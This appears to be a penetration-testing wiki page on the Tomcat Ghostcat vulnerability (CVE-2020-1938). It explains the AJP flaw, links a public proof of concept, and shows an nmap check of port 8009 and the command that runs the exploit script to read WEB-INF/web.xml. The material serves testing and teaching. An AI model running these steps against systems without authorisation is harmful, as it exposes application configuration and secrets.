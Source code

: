 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2020-1938 (Ghostcat)

Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938). All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.

{% hint style="info" %}
## Proof of Concept

[https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
{% endhint %}

This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.

## Confirm AJP Port

The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.

{% code title="Command" %}
```bash
nmap -sV -p 8009,8080 app-dev.acme.com
```
{% endcode %}

{% code title="Output" %}
```bash
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```
{% endcode %}

The above scan confirms that ports 8080 and 8009 are open. The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Download the script and save it locally. The exploit can only read files and folders within the web apps folder, which means that files like `/etc/passwd` can’t be accessed.

## Script Execution

{% code title="Command" %}
```bash
python2.7 tomcat-ajp.lfi.py app-dev.acme.com -p 8009 -f WEB-INF/web.xml 
```
{% endcode %}
